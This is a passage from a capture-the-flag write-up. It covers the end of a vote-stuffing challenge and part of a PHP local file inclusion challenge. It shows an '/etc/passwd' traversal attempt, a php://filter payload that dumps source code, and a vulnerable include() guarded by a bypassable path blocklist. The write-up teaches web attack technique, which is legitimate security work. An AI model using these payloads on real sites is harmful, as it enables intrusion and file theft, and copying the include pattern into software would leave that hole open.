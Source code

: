 ```python
	Thread(target=main, args=(cookies[i],)).start()
```

This gave the LA Ice Cola 281 votes thus winning the election.

![https://bit.ly/347EP74](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/fdf37c51-394c-40dd-8472-b5099df4b6c8/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20201213%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20201213T091046Z&X-Amz-Expires=86400&X-Amz-Signature=19d99f930174b9e9fab10598d30b3bf239b93c55e6a4cc9c1e493d868abf218c&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

The flag was on the results page:

![https://bit.ly/345FTYY](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/e46020d7-e68d-4854-9114-f8b9f99e0580/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20201213%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20201213T091057Z&X-Amz-Expires=86400&X-Amz-Signature=8c9157cbb87b2ede5e55da2fab48b72cc1331f7166fbafe1eec78f77b401c840&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

## Old is Gold

> Back in the old days, we used to create websites with very little functionality. We didn't have all the fancy frameworks available now. I don't think anyone would want to hack our manifesto, but I wonder if they could pull it off!
Service: [http://web-3](http://web-3/)

I spent a lot of time on this challenge because I missed a very basic enumeration step - dirbusting which one of my teammates did (thankfully) after which it was pretty easy.

Checking the web server reveals a bunch of information about the `Agile Software Development Manifesto` under which we have a bunch of language links that load the page in the selected language. What was interesting though is that the files were loaded in using a `lang=` parameter. Looks like there is some LFI to be exploited. However, attempting to access `../../../../etc/passwd` gives the following message.

```bash
Hacker detected! Go away!
```

Maybe there is some filtering going on in the backend. 

Using PHP wrappers we are able to dump the contents of index.php which contains the source code. PHP wrappers allow us to dump the contents of a php file by base64 encoding it. 

HackTricks has a good cheatsheet on how to use them available [here](https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-rfi-using-php-wrappers).

Dumping the source code of index.php can be done using the following payload:

```bash
http://web-3/index.php?lang=php://filter/convert.base64-encode/resource=index.php
```

Decoding the base64 string returned on the page gives us a better idea as to what is being filtered.

```php
<?php

if (isset($_GET["lang"])){
        $lang = $_GET["lang"];

        if ($lang === "index.php"){
                die("Too many redirects");
        }

        $bad = array("bin", "boot", "dev", "etc", "home", "lib", "lib64", "media", "mnt", "opt", "proc", "root", "run", "run.sh", "sbin", "srv", "sys", "tmp", "usr", "var", "x.sql", "~", "..");

        foreach ($bad as $b){
                if (strpos($lang, $b) !== false){
                        die("Hacker detected! Go away!");
                }
        }

        include($lang);
}else{
```